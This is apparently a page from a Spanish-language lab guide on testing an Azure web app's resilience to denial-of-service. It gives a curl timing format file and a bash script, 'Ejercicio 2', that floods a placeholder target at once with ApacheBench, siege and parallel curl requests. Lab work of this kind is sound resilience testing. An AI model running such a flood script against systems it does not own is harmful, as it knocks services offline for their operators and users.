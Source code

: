 #### **Archivo curl-format.txt:**
```
     time_namelookup:  %{time_namelookup}\n
        time_connect:  %{time_connect}\n
     time_appconnect:  %{time_appconnect}\n
    time_pretransfer:  %{time_pretransfer}\n
       time_redirect:  %{time_redirect}\n
  time_starttransfer:  %{time_starttransfer}\n
                     ----------\n
          time_total:  %{time_total}\n
```

#### **Ejercicio 2: Ataque Multi-Vector Coordinado**
```bash
# multi-vector-lab.sh
#!/bin/bash

TARGET="tu-aplicacion.azurewebsites.net"
DURATION=120

echo "🚨 LABORATORIO: Ataque Multi-Vector Coordinado"
echo "🎯 Objetivo: $TARGET"
echo "⏱️ Duración: $DURATION segundos"
echo ""

# Función de log con timestamp
log() {
    echo "[$(date '+%H:%M:%S')] $1"
}

log "🔄 Iniciando monitoreo de baseline..."
# Aquí deberías tener el monitor corriendo en otra terminal

sleep 5
log "⚡ Iniciando Vector 1: HTTP Flood"
ab -n 30000 -c 150 "https://$TARGET/" &
VECTOR1_PID=$!

sleep 10
log "⚡ Iniciando Vector 2: Conexiones Sostenidas"
siege -c 100 -t ${DURATION}s "https://$TARGET/" &
VECTOR2_PID=$!

sleep 10  
log "⚡ Iniciando Vector 3: Requests Aleatorios"
for i in {1..50}; do
    curl -s -o /dev/null "https://$TARGET/random-endpoint-$i" &
done

log "🔥 Todos los vectores activos - monitoreando por $DURATION segundos..."

# Esperar duración del ataque
sleep $((DURATION - 30))

log "🛑 Terminando vectores de ataque..."
kill $VECTOR1_PID 2>/dev/null
kill $VECTOR2_PID 2>/dev/null
pkill -f "curl.*$TARGET"

log "✅ Ataque completado - revisar métricas de monitoreo"
log "📊 Ejecutar análisis post-ataque con el comando analyze"
```
